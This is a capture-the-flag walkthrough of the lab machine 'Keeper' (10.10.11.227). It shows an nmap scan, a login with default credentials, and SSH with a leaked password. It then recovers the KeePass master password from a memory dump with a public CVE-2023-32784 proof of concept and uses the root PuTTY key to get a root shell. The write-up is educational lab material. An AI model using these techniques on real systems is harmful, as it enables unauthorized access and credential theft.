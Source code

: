 # Keeper Writeup
<figure><img src="../src/Keeper/card.png"></figure>

## Target IP-Address: 10.10.11.227

Nmap Scan: 

```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -vv 10.10.11.227
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found `keeper.htb` but it kept pointing us to another url which was `tickets.keeper.htb`.

Once on tickets.keeper.htb, We can find a login page.

<figure><img src="../src/Keeper/loginpage.png"></figure>

So, starting with the basics, I tried some generic credentials and was able to get into the admin interface with `root:password`.

<figure><img src="../src/Keeper/adminpage.png"></figure>

## Enumeration

On exploring a little more, I found the initial password of Inorgaard to be `Welcome2023!`.

## User Flag

Since we got the credentials, Let's SSH into the user.

```
┌──(kali㉿kali)-[~]
└─$ ssh lnorgaard@keeper.htb
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ 
```

Boom, We found the User Flag.

## Root Flag

We can see a zip file in the home directory `RT3000.zip`. On unzipping it, we find some interesting files.

<figure><img src="../src/Keeper/unzip.png"></figure>

To get these files on my machine. I started an python server and downloaded them.

After a bit of research, I ran into `CVE-2023-32784`.

So we can use Keepass dump masterkey

```
git clone https://github.com/CMEPW/keepass-dump-masterkey
```

After running that with the dump. We found an incomplete password

```
┌──(kali㉿kali)-[~/Desktop/tools/keepass-dump-masterkey]
└─$ python3 poc.py ../../../Downloads/KeePassDumpFull.dmp 
2023-12-18 00:59:44,753 [.] [main] Opened ../../../Downloads/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Since we know that the user is Danish. `●Mdgr●d med fl●de` can be decoded to `øMdgrød med fløde`.

And with a little bit of google search we end up with `rødgrød med fløde`.

Now let's try to crack the KeePass vault.

I use a web based KeePass client `https://app.keeweb.info/` and unlock the file with the above password.

I found the contents of a PuTTY PPK file for the root user.

<figure><img src="../src/Keeper/putty.png"></figure>

With `puttygen` we can convert the PPK to an id_rsa SSH private key.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ puttygen key.ppk -O private-openssh -o id_rsa
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads]
└─$ chmod 600 id_rsa  
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh -i id_rsa root@keeper.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# 
```

And with this the machine has been rooted.

Thank you!! Happy Hacking :D